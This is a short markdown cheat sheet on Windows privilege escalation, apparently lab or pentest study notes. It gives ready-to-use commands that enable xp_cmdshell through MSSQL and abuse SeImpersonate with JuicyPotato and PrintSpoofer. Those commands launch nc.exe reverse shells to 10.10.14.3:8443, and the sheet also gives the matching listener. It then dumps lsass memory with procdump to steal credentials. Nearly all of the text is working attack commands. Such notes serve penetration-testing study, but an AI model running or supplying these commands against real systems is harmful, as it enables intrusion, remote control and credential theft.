 
### Interesting tools

* PsExec
* Mimikatz


### Privilege escalation - SeImpersonate 
 
* With JuicyPotato:

First, authenticate with a user in MSSQL:

```
mssqlclient.py <user>@<IP> -windows-auth
```

Enabling xp_cmdshell:

```
enable_xp_cmdshell
```

Confirm that it works:

```
xp_cmdshell whoami /priv
```

Escalating Privileges Using JuicyPotato, example:

```
xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```

In attacker's machine:

```
sudo nc -lnvp 8443
```


* With PrintSpoofer:

Example:

```shell-session
xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```

In attacker's machine:

```
sudo nc -lnvp 8443
```


### Privilege escalation - SeDebugPrivilege

Example:

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

